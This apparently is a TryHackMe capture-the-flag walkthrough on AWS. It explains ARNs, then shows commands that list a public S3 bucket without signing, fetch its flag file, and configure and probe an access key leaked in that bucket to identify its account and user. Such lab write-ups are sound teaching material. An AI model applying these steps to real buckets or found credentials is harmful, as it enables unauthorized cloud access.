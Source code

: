 ### AWS ARNs

An Amazon ARN is their way of generating a unique identifier for all resources in the AWS Cloud. It consists of multiple strings separated by colons.

The format is:
```
arn:aws:<service>:<region>:<account_id>:<resource_type>/<resource_name>
```

# Challenge


### What is the name of the S3 Bucket
```
i*****.be***************ny.com
```


### What is the message left in the flag.txt
```bash
curl https://s3.amazonaws.com/i*****.be***************ny.com/flag.txt
```



### What other file in that bucket looks interesting to you?
```bash
# it is slower but easier to read
aws s3 ls s3://i*****.be***************ny.com --no-sign-request
```


### What is the AWS Access Key ID in that file?
```
AKI*************AOI
```



### What is the AWS Account ID that access-key works for?

```bash
aws configure --profile TryHackMeDay17
aws sts get-access-key-info --access-key-id AKI*************AOI --profile TryHackMeDay17
```
```json
{
    "Account": "01********76"
}
```


### What is the Username for that access-key?
```bash
aws sts get-caller-identity --profile TryHackMeDay17
```
